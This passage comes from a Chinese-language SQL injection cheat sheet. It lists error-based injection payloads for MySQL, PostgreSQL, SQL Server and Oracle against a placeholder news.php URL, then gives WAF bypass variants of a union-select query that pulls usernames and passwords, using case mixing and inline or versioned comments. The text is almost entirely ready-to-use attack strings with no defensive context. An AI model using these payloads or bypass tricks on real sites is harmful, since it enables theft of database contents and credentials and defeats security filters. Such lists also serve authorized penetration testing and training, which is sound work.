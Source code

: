 ```python
        
        return result
```

### [[报错注入]] (Error-based)
**原理**: 利用数据库报错信息泄露数据

#### MySQL报错注入
```sql
-- extractvalue函数
http://target.com/news.php?id=1' and extractvalue(1,concat(0x7e,database(),0x7e))--+

-- updatexml函数
http://target.com/news.php?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+

-- floor报错
http://target.com/news.php?id=1' and (select count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2)))--+

-- 几何函数报错
http://target.com/news.php?id=1' and geometrycollection((select * from(select * from(select user())a)b))--+
```

#### 其他数据库报错
```sql
-- PostgreSQL
http://target.com/news.php?id=1' and cast(version() as int)--+

-- SQL Server
http://target.com/news.php?id=1' and convert(int,@@version)--+

-- Oracle
http://target.com/news.php?id=1' and ctxsys.drithsx.sn(1,(select user from dual))=1--+
```

## 🛡️ 绕过技术

### [[WAF绕过]]
**Web应用防火墙绕过技术**

#### 大小写绕过
```sql
-- 原始payload
union select user,password from users

-- 大小写混合
UnIoN SeLeCt user,password FrOm users
```

#### 注释绕过
```sql
-- 内联注释
/*!union*/ /*!select*/ user,password /*!from*/ users

-- 版本注释
/*!50000union*/ /*!50000select*/ user,password /*!50000from*/ users

-- 多行注释
/*union*/ /*select*/ user,password /*from*/ users
```
